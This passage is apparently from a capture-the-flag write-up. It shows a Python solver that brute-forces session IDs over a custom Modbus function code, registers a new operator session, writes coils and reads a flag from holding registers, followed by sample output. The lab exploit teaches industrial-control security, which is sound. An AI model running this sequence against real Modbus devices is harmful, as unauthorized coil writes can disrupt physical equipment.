        self.code = code
        self.data = data if data is not None else []

    def encode(self):
        # Dynamically encode data based on its length and type
        data_format = '>BB' + 'B' * len(self.data)
        return struct.pack(data_format, self.session, self.code, *self.data)

    def decode(self, data):
        """Decode a request pdu.
        
        Dynamically decode data based on data lenght

        This function does not return data
        """
        print('[!] Request decode is not required for client!')


class CustomProtocolResponse(ModbusResponse):
    function_code = CUSTOM_FUNCTION_CODE

    def __init__(self, session= 0x00, code= 0x00, response_code= 0x00 , data= None, **kwargs):
        super().__init__(**kwargs)
        self.session = session
        self.code = code
        self.data = data if data is not None else []
        self.response_status = False

    def encode(self):
        """Ecnode a response pdu.
        
        Dynamically encode data based on data lenght

        This function returns data
        """
        print('[!] Response encode is not required for client!')
       
        #return

    def decode(self, data):
        """Decode a response pdu.
        
        Decode a response packet where all components including session ID and custom function code are 8-bit values.
        """
        # Unpack the session and code first
        self.session, self.code, self.response_status = struct.unpack('>BBB', data[:3])
        # Decode the remaining data as 8-bit unsigned integers
        self.data = list(struct.unpack('>' + 'B' * (len(data) - 3), data[3:]))

        global SESSION

        SESSION = self.session


def send_custom_protocol_request(client, session, code, data):
    request = CustomProtocolRequest(session=session, code=code, data=data)
    response = client.execute(request)
    
    if response.function_code < 0x80:
        #print("Successful response:", response.session, response.code, response.data)
        return response.code, response.response_status, response.data
    else:
        print("Error response:", response)
        return -1, -1, -1 

def send_packet(client, SESSION, CUSTOM_CODE, DATA=[]):
        if client.connect():
            print("Connected to the server")
        
            code, status, data = send_custom_protocol_request(client, session= SESSION, code=CUSTOM_CODE, data=DATA)  # Example with multiple data points        
        
            if len(data) == 2:
                hex_number = (lambda x: (x[0] << 8) + x[1])(data)

                if hex_number in ERROR_CODES:
                    print(f'ERROR: {ERROR_CODES[hex_number]}')
        else:
            print("Failed to connect to the server")

        return code, status, data


def string_to_hex_list(hex_string):
    return [int(hex_string[i:i+2], 16) for i in range(0, len(hex_string), 2)]


if __name__ == "__main__":
    
    client = ModbusTcpClient(HOST_IP, port=HOST_PORT, framer=ModbusSocketFramer)
    client.framer.decoder.register(CustomProtocolResponse)

    custom_code = 0x45

    for i in range(0x00, 0xff):
        SESSION = i
        code, status, data = send_packet(client, SESSION, custom_code)


        hex_data = [hex(x) for x in data]

        formatted_hex_string = ''.join(f'{int(x, 16):02x}' for x in hex_data)
        print(hex_data, formatted_hex_string)


        if data != [0xe0, 0x08]:
            print(f'Current Session ID: {SESSION} ({SESSION:#x})')
            break

    code, status, data = send_packet(client, SESSION, 0x11)
    
    username = [ord(char) for char in 'new_operator']

    code, status, data = send_packet(client, SESSION, 0x10, [len(username)] + username)
    
    SESSION = data[0]
    print(f'New session id {SESSION}')
    code, status, data = send_packet(client, SESSION, 0x44)
    code, status, data = send_packet(client, SESSION, 0x46)
    code, status, data = send_packet(client, SESSION, 0x52)

    time.sleep(1)
    # Writing coils
    response = client.write_coils(COIL_START, COIL_VALUES)

    if not response.isError():
        print("Coils written successfully")
    else:
        print("Error writing coils:", response)

    time.sleep(10)

    # Reading coils
    read_response = client.read_coils(COIL_START, COIL_COUNT)
    if not read_response.isError():
        print("Coils values read:", read_response.bits)
    else:
        print("Error reading coils:", read_response)

    time.sleep(10)
   
    if client.connect():
    
      # Reading from Holding Registers
        read_response = client.read_holding_registers(FLAG_ADDR_HOLDING_REGISTER, FLAG_COUNT)
        if not read_response.isError():
            print("Register values read:", read_response.registers)
        else:
            print("Error reading registers:", read_response)

        FLAG = ''.join([chr(char) for char in read_response.registers])
        print('FLAG:', FLAG)
        # Close the connection
        client.close()
    else:
        print("Failed to connect to MODBUS server")
     
```


## Getting the Flag

Executing the solver will grant access to the secret which will reveal the flag!

```
python3 client.py

<SNIP>
New session id 193

<SNIP>

Coils written successfully
Coils values read: [False, True, True, False, False, False, False, False]
Register values read: [72, 84, 66, 123, 55, 104, 51, 95, 118, 52, 117, 49, 55, 95, 49, 53, 95, 48, 112, 51, <SNIP> 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0]
FLAG: HTB{7h3_v4u17_15_<SNIP>
```


